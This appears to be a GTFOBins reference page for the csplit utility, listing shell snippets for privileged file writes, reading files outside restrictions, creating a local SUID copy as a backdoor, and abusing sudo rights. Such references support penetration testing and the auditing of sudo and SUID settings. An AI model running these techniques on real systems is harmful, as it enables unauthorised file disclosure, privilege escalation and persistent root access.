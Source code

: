 # GTFOBin: csplit

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

Writes the data to `xx0file_to_write`. If needed, a different prefix can be specified with `-f` (instead of `xx`).

```
TF=$(mktemp)
echo "DATA" > $TF
LFILE=file_to_write
csplit -z -b "%d$LFILE" $TF 1
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
csplit $LFILE 1
cat xx01
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which csplit) .

LFILE=file_to_read
csplit $LFILE 1
cat xx01
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
csplit $LFILE 1
cat xx01
```
